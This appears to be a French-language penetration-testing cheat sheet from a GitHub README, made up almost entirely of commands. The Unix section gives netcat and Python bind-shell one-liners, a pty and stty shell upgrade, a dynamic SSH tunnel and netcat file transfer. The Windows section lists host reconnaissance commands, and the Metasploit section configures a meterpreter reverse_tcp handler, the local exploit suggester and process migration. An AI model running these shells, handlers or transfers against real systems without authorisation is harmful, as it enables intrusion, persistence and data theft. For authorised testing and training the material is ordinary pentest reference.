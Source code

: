 <h2>Unix</h2>
Accorder les permissions pour un user specifique</br>
setfacl -m u:username:rwx myfolder</br>
Tunnel ssh dynamique sur le port local 8080:</br>
ssh -ND 8080 root@addressIP</br>
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :
<ul>
  <li>nc -lvp 2222 -e /bin/bash</li>
  <li>python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"</li>
</ul>
On se connecte avec nc -nv 2222 adress port</br>
<h4>Pour avoir un shell pty :</h4>
<ul>
  <li>python -c "import pty; pty.spawn('/bin/bash')"</li>
</ul>
<h4>Pour avoir tab completion tout joli :</h4>
<ul>
  <li>Prendre un shell pty avec la commande plus haut</li>
  <li>CTRL-Z</li>
  <li>stty raw -echo</li>
  <li>fg</li>
</ul>

Envoi fichier avec netcat :</br>
nc -l -p 1234 > out.file</br>
nc -w 3 [destination] 1234 < out.file</br>

<h2>Windows</h2>
systeminfo pour obtenir des renseignements sur le systeme</br>
net users [username] pour obtenir des renseignements sur les utilisateurs</br>
tasklist pour lister les processus</br>
netstat -ano pour les connexions reseau</br>
dir sysprep /s /b pour trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
wmic qfe list pour lister les mises à jour installées</br>


<h2>Metasploit</h2>
Handler :</br>
use exploit/multi/handler</br>
set PAYLOAD windows/x64/meterpreter/reverse_tcp</br>
set LHOST 192.168.8.142</br>
set LPORT 8888</br>
set ExitOnSession false</br>
exploit -j -z</br>

use post/multi/recon/local_exploit_suggester</br>

run post/windows/manage/migrate pour changer sur un processus plus fiable</br>
